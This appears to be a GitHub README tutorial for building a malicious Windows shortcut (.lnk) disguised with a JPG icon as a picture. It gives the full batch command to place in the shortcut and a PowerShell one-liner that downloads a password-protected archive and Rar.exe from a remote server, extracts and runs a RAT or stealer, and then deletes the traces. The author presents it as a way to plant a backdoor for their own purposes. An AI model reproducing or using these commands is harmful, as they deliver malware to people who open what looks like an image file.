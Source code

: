 <h1 align="center">lnk artifact</h1>

<a href="https://youtu.be/LOv5SX6uaHM"> how to assemble lnk artifact </a>

<p align="center">
	<i>Toxic shortcuts in Windows: an old artifact, not forgotten by hackers, but partially forgotten by forensics..</i>
</p>

-------
I welcome all friends, this is by no means an advertisement of a third-party resource, but you can find more detailed information on [Habr](https://habr.com/ru/company/group-ib/blog/493906/).

In this topic, I will show only how to use it for my own purposes.
All we need is the winrar archiver, or rather Rar.exe and our malicious RMS or RAT or BOTNET or STEALER file, etc. etc. Next, we pack our malicious file called install.exe into an archive with a password, password: 123321, the name of the archive at the output is install.rar, upload the Rar.exe and install.rar files to our server and give both files permission 777 to read, write and execution.

We have already dealt with the introductory part, let's proceed to the assembly.

We will mask it under the picture, therefore we create a shortcut on the desktop and indicate the code in the location:

---
~~~bat
%COMSPEC% /c "copy /Y image.lnk %temp%\1&findstr /c:"@ECHO" %temp%\1>%temp%\s.bat&start /MIN %TEMP%\s.bat&exit"
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/W1HMyrnr/1.png" />
</p>

Next, we set the name of what is in the location: image

<p align="center">
	<img src="https://i.postimg.cc/2Sh0n0my/2.png" />
</p>

Next, go to the properties of the lnk file and remove the working folder

<p align="center">
	<img src="https://i.postimg.cc/Kv62ZpJ8/3.png" />
</p>

And optionally we put any icon, but since we want to disguise it as a picture, we select the jpg icon.

<p align="center">
	<img src="https://i.postimg.cc/4dY1WPtr/4.png" />
</p>

Open image.lnk in any text editor Notepad++ in my case, version 7.8.6 (Open np++ and transfer our lnk file to the main window) and add our code to download and launch the backdoor from the server to the next line:

---
~~~bat
@ECHO OFF && IF EXIST "%temp%\lnkexp.txt" (exit) ELSE echo lnkexp»%temp%\lnkexp.txt && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/install.rar', '%temp%/install.rar') && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/Rar.exe', '%temp%/Rar.exe') && %temp%\Rar.exe x -t -o+ -p123321 %temp%\install.rar %temp%\ && %temp%\install.exe && del /f /q %temp%\install.rar && del /f /q %temp%\Rar.exe && exit
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/26znJfJb/5.png" />
</p>


That's all, our lnk is ready, and everything that I think further is intuitive.
Link to youtube: [www.youtube.com](https://youtu.be/LOv5SX6uaHM)
